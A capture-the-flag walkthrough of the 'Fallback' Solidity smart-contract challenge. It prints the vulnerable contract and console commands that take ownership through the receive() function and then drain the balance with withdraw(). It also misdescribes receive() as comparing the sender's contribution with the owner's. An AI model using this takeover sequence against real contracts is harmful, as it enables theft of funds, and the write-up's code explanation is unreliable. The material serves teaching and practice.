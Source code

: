 ### TASK
The task is to claim ownership of the contract and drain its balance to 0.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

The contract's funds can be drained by calling the "withdraw" function, and this function can only be executed by the address that is set as the "owner" variable. This function will transfer all of the contract's funds to the address set as the "owner". 


### CODE VUNERABILITIES
##### The "contribute() function"

```solidity
 function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

This function allows the msg.sender to send Ether to the contract, which will be added to the user's balance as tracked by the "contributions" mapping variable. If the total contribution made by the msg.sender is greater than the total contribution made by the current owner (as tracked by the "contributions" mapping variable), the msg.sender will become the new owner.
<br/>
This function could be vulnerable to a "frontrunning" attack, where an attacker can observe the transaction, and sends a larger amount of wei before the original transaction is mined, to become the new owner and some other vunerabilities.
<br/>

##### The 'recieve()' function 
The "receive" function is a special function in Solidity that is automatically executed when a user sends Ether to a contract without specifying any data in the "data" field of the transaction. This function does not require any specific function signature and can be defined by the developer as any other function in the contract.

```solidity
 receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

In the receive function, the owner is updated with msg.sender only if the amount of wei sent with the transaction is greater than 0, and the total contribution made by msg.sender in the contributions mapping is greater than the one made by the current owner. 


1. We need to first contribute a small amount of ether(in wei) to the contract;

```
   await contract.contribute({from: player, value:toWei("0.0004")})
```

2. Activate the receive function by sending ether to the contract;

```
   await sendTransaction({from: player, value: toWei("0.0004"), to: instance, data: ""})
```

Now check the current owner, it should be your address

```
await contract.owner()
```

You can withdraw all the funds in the contract now by using;

```
  await contract.withdraw();
```

##### Conclusion
If an attacker can finds a way to change the value of the "owner" variable to their own address, they will be able to execute the "withdraw" function and drain all the funds from the contract. Therefore, it is important to ensure that the "owner" variable is protected and cannot be modified by unauthorized parties.

